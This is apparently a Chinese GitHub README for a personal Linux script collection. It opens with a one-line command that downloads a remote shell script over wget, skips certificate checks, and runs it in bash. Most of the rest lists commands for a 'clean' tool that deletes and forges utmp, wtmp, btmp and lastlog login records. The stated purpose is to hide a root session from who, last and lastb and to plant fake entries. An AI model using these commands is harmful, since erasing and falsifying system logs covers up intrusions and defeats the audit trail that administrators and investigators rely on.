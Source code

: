 # SH
我的 Linux 脚本

1、安装AutoSSH

wget -c -N --no-check-certificate "https://raw.githubusercontent.com/sunlewuyou/SH/master/autossh.sh" && bash autossh.sh


2、Linux脚印
1. 删除utmp记录，将自己从w或者who输出中隐藏
python clean --mode delete --type utmp --user root //删除用户为root的用户记录
python clean --mode delete --type utmp --user root --host "58.47.251.255" //删除用户为root且登录来源host为58.47.251.255的用户记录
2. 删除历史登录记录(wtmp)，隐藏last的记录
python clean --mode delete --type wtmp --user root --host "111.30.32.213" //删除用户为root且登录来源host为111.30.32.213的用户记录
3. 删除btmp记录，隐藏lastb的记录，lastb为登录失败的用户记录
python clean --mode delete --type btmp --user root --host "172.16.50.156" //删除用户为root且登录来源host为127.0.0.1的用户记录
4. 删除lastlog记录，不能通过用户删除，只能通过host或者时间
python clean --mode delete --type lastlog --host "172.16.50.1" //删除来源host的用户登录记录
python clean --mode delete --type lastlog --date "2017-8-2 22:46:34" //删除登录时间为2017-8-2 22:46:34的用户登录记录

python clean --mode delete --type lastlog --date "2018-09-01 03:17:49"
六 9月  1 03:17:49 +0800 2018

伪造日志
1. 伪造utmp记录，将自己从w或者who输出中伪造
python clean --mode add --type utmp --user nobody --tty "pts/8" --pid 25394 --date "2017-8-2 22:46:34" --host "127.0.0.1" //伪造用户为nobody的用户记录
这里伪造的时间和host可以通过who命令去找到，PID一般伪造bash或者ssh通过`ps -aux | grep ssh/bash`去寻找
2. 伪造历史登录记录(wtmp)，伪造last的记录
python clean --mode add  --type wtmp --user root --tty "pts/7" --date "2017-8-2 00:06:34" --host "127.0.0.1"
3. 伪造btmp记录，伪造lastb的记录，lastb为登录失败的用户记录
python clean --mode add  --type btmp --user root --tty "pts/7" --date "2017-8-2 00:06:34" --host "127.0.0.1" //伪造用户为root且登录来源host为127.0.0.1的用户登录失败记录
4. 伪造lastlog记录
python clean --mode add --type=lastlog --user=rootclay --date="2017-7-24 14:22:07" --tty "pts/2" --host "127.0.0.1" //伪造用户为rootclay 时间2017-7-24 14:22:07 来源登录ip为127.0.0.1的用户登录记录

